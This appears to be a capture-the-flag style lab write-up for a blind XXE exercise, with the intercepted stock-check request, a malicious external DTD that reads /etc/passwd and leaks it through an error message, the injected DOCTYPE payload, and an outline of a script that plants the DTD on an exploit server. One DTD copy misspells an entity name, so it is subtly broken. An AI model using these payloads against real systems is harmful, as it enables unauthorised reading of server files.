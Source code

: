 ### Lab: Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

_____

Analysis and Exploit:

1. Intercept the "Check stock" feature request
    - POST **/product/stock**
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>1</productId>
            <storeId>1</storeId>
        </stockCheck>
    ```
2. Store the maliciuos DTD onto the exploit server:
    - POST **/** - Exploit server url
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exifltrate SYSTEM 'file:///noneexistant/%file;'>">
    %eval;
    %exfiltrate;
    ```
    - Save the DTD as xxe.dtd available at EXPLOIT-SERVER-URL/xxe.dtd

3. Craft payload and inject into the "Check Stock" request
    ```xml
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "EXPLOIT-SERVER-URL/xxe.dtd"> %xxe;]>
    ```
    - if "root:x:0:0:root:/root:/bin/bash" in the response text: works


_____

Script:

1. Checks if two URLs are given as arguments
    - if not print usage instructions and gracefully exit
2. Store the malicious DTD on the exploit server (second URL) | POST **/** | params: 
    - urlIsHttps: on
    - responseFile: /xxe.dtd
    - responseHead: HTTP/1.1 200 OK Content-Type: text/plain; charset=utf-8
    - responseBody: 
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file:///nonexistant/%file;'>">
    %eval;
    %exfiltrate;
    ```
    - formActions: STORE

    - if status code == 200: ok
3. Send payload exploiting the "Check stock" functionality | POST **/product/stock** | params: 'xml payload'
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "EXPLOIT-SERVER-URL/xxe.dtd"> %xxe;]>
        <stockCheck>
            <productId>1</productId>
            <storeId>1</storeId>
        </stockCheck>
    ```

    - if "root:x:0:0:root:/root:/bin/bash" in response text: exploit works